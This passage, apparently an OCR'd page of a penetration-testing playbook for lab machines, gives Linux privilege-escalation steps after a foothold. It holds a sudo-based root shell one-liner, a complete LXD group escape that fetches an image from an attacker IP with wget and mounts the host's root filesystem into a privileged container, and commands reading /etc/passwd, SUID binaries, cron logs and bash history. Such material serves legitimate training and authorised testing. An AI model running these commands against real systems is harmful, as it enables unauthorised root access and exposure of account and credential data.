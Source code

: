 ⚠️ **Mistakes & Fixes:**

* ❌ Forgetting to background shell with `Ctrl+Z`.
  ✅ Fix: Playbook shows exact sequence (spawn → suspend → stty → fg).
* ❌ Not setting `TERM` → broken `nano/vi` display.
  ✅ Fix: `export TERM=xterm-256color` included.

---

## 3) Quick Privesc Checks (after foothold)

### 3.1 Sudo rights

```bash
# 🟧 REMOTE
sudo -n -l
```

* Look for **NOPASSWD** entries → use [GTFOBins](https://gtfobins.github.io).
* Example:

  ```bash
  sudo perl -e 'exec "/bin/bash";'
  ```

### 3.2 LXD group

```bash
# 🟧 REMOTE
id
# If 'lxd' present:
cd /tmp
wget http://10.10.14.5/alpine.tar.gz -O alpine.tar.gz
lxd init --auto || true
lxc image import alpine.tar.gz --alias alpine
lxc init alpine privesc -c security.privileged=true
lxc config device add privesc hostroot disk source=/ path=/mnt/root recursive=true
lxc start privesc
lxc exec privesc /bin/sh
chroot /mnt/root /bin/bash
id
```

### 3.3 Other PE checks

```bash
# Linux
id; uname -a; cat /etc/passwd
find / -type f -perm -u+s -exec ls -l {} \; 2>/dev/null
ls -lah /etc/cron* /var/log/cron*
cat ~/.bash_history
```

⚠️ **Mistakes & Fixes:**
